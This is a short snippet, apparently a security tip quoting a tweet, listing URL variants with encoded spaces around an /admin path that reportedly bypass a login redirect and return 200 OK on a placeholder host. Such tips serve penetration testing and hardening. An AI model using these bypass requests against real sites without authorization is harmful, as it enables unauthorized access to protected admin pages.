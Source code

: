 
https://twitter.com/0xJin/status/1449617495019634689


```

Try access /admin path without follow redirects {tampering}:

~http://target.com/admin –> HTTP 302 (redirect to login page)
~http://target.com/admin%20/ -> HTTP 200 OK
~http://target.com/%20admin%20/ -> HTTP 200 OK
~http://target.com/admin%20/page -> HTTP 200 OK
```